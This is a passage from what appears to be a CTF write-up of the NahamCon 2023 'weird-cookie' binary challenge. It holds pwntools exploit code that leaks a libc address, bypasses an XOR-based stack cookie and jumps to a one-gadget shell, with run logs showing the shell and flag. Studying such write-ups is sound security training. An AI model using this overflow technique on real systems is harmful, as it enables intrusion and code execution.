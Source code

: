 ```bash
$ python exploit.py 
[+] Starting local process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched': pid 297525
[*] LIBC base :: 0x7fa5fca00000
[*] Switching to interactive mode

$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),114(scanner),137(wireshark),140(kaboxer),993(docker)
```
{: .nolineno }

Perfect! our payload has been executed successfully and thanks to `interactive()`, as its own name indicates, it changes us to interactive mode since we have successfully executed the shell.

```python
[.. code above..]

payload = b"A" * 40
payload += p64(0x123456789ABCDEF1 ^ (libc_base + libc.symbols.printf))
payload += b"A" * 8
payload += p64(libc_base + 0x10a2fc)      # our gadget

p.sendline(payload)

p.interactive()
```

Change the `process` line to `remote` with the address of the remote challenge and dump the flag!

```python
#p = process([exe.path])
p = remote('challenge.nahamcon.com', 31362)
```

```bash
$ python exploit.py
[+] Opening connection to challenge.nahamcon.com on port 31362: Done
[*] LIBC base :: 0x7f1fd719b000
[*] Switching to interactive mode

$ cat /flag.txt
flag{e87923d7cd36a8580d0cf78656d457c6}
```
{: .nolineno }

### Complete Exploit Source

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./weird_cookie_patched", checksec=False)
libc = ELF("./libc-2.27.so", checksec=False)

p = process([exe.path])

p.recvuntil(b"Do you think you can overflow me?")
p.sendline(b"A" * 55)                                                     # padding until __libc_start_main address

p.recvline()
p.recvline()

leak = u64(p.recv(6).ljust(8, b"\x00"))
```